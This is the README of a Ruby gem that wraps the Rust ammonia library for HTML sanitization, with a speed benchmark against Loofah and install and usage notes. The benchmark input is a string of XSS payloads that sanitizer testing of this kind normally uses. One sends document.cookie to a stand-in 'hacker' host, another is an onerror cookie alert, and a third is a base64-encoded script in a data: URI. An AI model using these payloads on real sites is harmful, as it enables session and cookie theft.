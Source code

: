 # Sterilize

Sterilize is a gem which uses the Rust library [ammonia](https://github.com/rust-ammonia/ammonia) to provide text sanitization

> Ammonia is a whitelist-based HTML sanitization library. It is designed to prevent cross-site scripting, layout breaking, and clickjacking caused by untrusted user-provided HTML being mixed into a larger web page.

## Why not Loofah

Loofah is popular, but can be difficult to deal with in terms of configuration and usage. `Sterilize` aims to be essentially zero configuration and provides a very simple API (one method!). Give it a string and get back a sanitized version.

Take a look at the specs directory to see some of the cases that get handled. They are mostly provided for documentation purposes as the `ammonia` library is extensively [tested](https://github.com/rust-ammonia/ammonia/blob/master/src/lib.rs)

Finally, Sterilize is _fast_.

```ruby
unsafe_string = "I am nice safe user input, nothing to see here.. <script>console.log('installing bitcoin miner')</script><SCRIPT>var+img=new+Image();img.src='http://hacker/'%20+%20document.cookie;</SCRIPT><img src='http://url.to.file.which/not.exist' onerror=alert(document.cookie);><a href='data:text/html;base64,PHNjcmlwdD5hbGVydCgna25pZ2h0c3RpY2sgd2FzIGhlcmUnKTwvc2NyaXB0Pg=='>HACK HACK HACK</a>" * 1000


Benchmark.bm do | benchmark |
  benchmark.report("Sterilize#perform") do
    50.times do
      Sterilize.perform(unsafe_string)
    end
  end
  benchmark.report("Loofah.scrub_fragment(unsafe_string, :prune).to_str") do
    50.times do
      Loofah.scrub_fragment(unsafe_string, :prune).to_str
    end
  end
end
```

As you can see, Sterilize can operate significatnly faster (somewhere in the ballpark of 9-10 times faster). As with all benchmarks though, your mileage may vary and it's important to see how things work in practice for you.

| Library                                             | user       | system   | total      | real         |
| --------------------------------------------------- | ---------- | -------- | ---------- | ------------ |
| Sterilize#perform                                   | 1.284460   | 0.006097 | 1.290557   | ( 1.295062)  |
| Loofah.scrub_fragment(unsafe_string, :prune).to_str | 10.183802  | 0.064826 | 10.248628  | ( 10.274430) |

## Installation

In order to use this library you will need to have access to Rust's build tooling [cargo](https://doc.rust-lang.org/cargo/getting-started/installation.html), this simplest way to get this is via [rustup](https://rustup.rs/).

After ensuring you have these things available, add the gem to your bundle

```ruby
gem 'sterilize'
```

And then execute:

    $ bundle

Or install it yourself as:

    $ gem install sterilize

`sterilize` includes a Rake take which will compile the Rust library for your platform and copy it to the correct location.

## Usage

`sterilize` provides a single method, `Sterilize.perform` which accepts a string.

```shell
pry(main)> unsafe_string = "I am nice safe user input, nothing to see here.. <script>console.log('installing bitcoin miner')</script>"
pry(main)> Sterilize.perform(unsafe_string)
=> "I am nice safe user input, nothing to see here.. "
```

Passing anything other than a `String` will result in an error.

## Development

After checking out the repo, run `bin/setup` to install dependencies. Then, run `rake spec` to run the tests. You can also run `bin/console` for an interactive prompt that will allow you to experiment.

To install this gem onto your local machine, run `bundle exec rake install`. To release a new version, update the version number in `version.rb`, and then run `bundle exec rake release`, which will create a git tag for the version, push git commits and tags, and push the `.gem` file to [rubygems.org](https://rubygems.org).

## Contributing

Bug reports and pull requests are welcome on GitHub at https://github.com/[USERNAME]/sterilize. This project is intended to be a safe, welcoming space for collaboration, and contributors are expected to adhere to the [Contributor Covenant](http://contributor-covenant.org) code of conduct.

## License

The gem is available as open source under the terms of the [MIT License](https://opensource.org/licenses/MIT).
